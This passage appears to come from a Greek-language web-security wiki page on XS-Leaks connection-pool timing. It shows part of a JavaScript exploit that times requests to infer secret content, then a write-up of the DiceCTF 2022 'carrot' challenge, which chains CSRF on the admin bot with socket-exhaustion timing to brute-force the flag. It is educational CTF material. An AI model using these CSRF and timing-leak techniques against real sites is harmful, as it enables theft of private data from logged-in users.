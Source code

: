 ```html
setTimeout(async () => {
for(let i=0; i<round; i++) {
let s = performance.now()
await fetch(TARGET + '/?test', {
mode: 'no-cors'
}).catch(err=>1)
let end = performance.now()
t += end - s
console.log(end - s)
}
const avg = t/round
send(str + "," + t + "," + "avg:" + avg)

/*
I get this threshold(1000ms) by trying multiple times on remote admin bot
for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
*/
const isFound = (t >= 1000)
if (isFound) {
inp2.value = "0"
} else {
inp2.value = "1"
}

// remember to delete the post to not break our leak oracle
f2.submit()
setTimeout(() => {
resolve(isFound)
}, 200)
}, 200)
}

</script>

</body>

</html>
```
## DiceCTF 2022 - carrot

Σε αυτή την περίπτωση, το πρώτο βήμα της εκμετάλλευσης ήταν να καταχραστεί ένα CSRF για να τροποποιηθεί η σελίδα όπου περιέχεται η σημαία, έτσι ώστε να έχει **πολύ περισσότερα περιεχόμενα** (και επομένως η φόρτωσή της να διαρκεί περισσότερο χρόνο), και στη συνέχεια **να καταχραστεί η πισίνα συνδέσεων για να μετρηθεί ο χρόνος που απαιτείται για την πρόσβαση στη σελίδα** που θα μπορούσε ενδεχομένως να έχει τη σημαία.

Στην εκμετάλλευση μπορείτε να δείτε:

* Κατάχρηση CSRF
* Κατάληψη όλων των υποδοχών εκτός από 1
* Καλιμπράρισμα της απόκρισης
* Ξεκίνημα brute forcing με την πρόσβαση στη δυνητική σελίδα με τη σημαία
* Η δυνητική σελίδα θα προσπελαστεί και αμέσως μια URL ελεγχόμενη από τον επιτιθέμενο θα προσπελαστεί επίσης για να ελεγχθεί πόσο χρόνο απαιτούν και οι δύο αιτήσεις.
```html
<h1>DiceCTF 2022 web/carrot</h1>

<p>Step 1: CSRF the admin user, to set a super long title for the flag note (LAX + POST form only possible for 2 minutes after cookies is created)</p>
<button onclick="csrf()">do csrf</button>
<p>Step 2: XS-Search with <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/">connection-pool timing leak</a>, we have to use window.open (LAX cookie)</p>

```